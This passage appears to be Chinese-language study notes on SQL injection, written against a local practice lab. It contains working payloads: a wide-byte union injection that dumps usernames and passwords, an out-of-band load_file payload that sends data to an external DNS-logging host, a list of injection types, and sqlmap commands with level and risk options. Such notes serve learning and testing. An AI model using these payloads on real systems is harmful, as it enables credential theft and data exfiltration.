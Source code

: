 ````
1%df' union select(select group_concat(username,0x3b,password) from users),2#
````

```
1%df'%20union%20select%20(select%20group_concat(username,0x3b,password)%20from%20users),2#
```



堆叠注入（二次注入）



带外注入

```
1' union select load_file('\\\\sql.jd14sh.ceye.io')#
```







基于位置分类：

get注入

post注入

cookie注入

搜索注入

延时注入

盲注

base64注入



### SQLmap的使用

布尔注入

延时注入

显错注入

联合注入

二次（堆栈）注入

```
sqlmap -u "127.0.0.1:8915/vul/sqli/sqli_str.php?name=a"
sqlmap -u "127.0.0.1:8915/vul/sqli/sqli_str.php?name=a" -p name
sqlmap -r /home/pinginglab/2020091601.txt
```

注意：删除请求中的特殊符号如：星号



```
sqlmap -m /home/pinginglab/2020091602.txt
sqlmap -u "http://127.0.0.1:8915/vul/sqli/sqli_id.php" --data "id=1&submit=%E6%9F%A5%E8%AF%A2"

   --level=LEVEL     执行测试的等级（1-5，默认为1）
   --risk=RISK       执行测试的风险（0-3，默认为1）
```
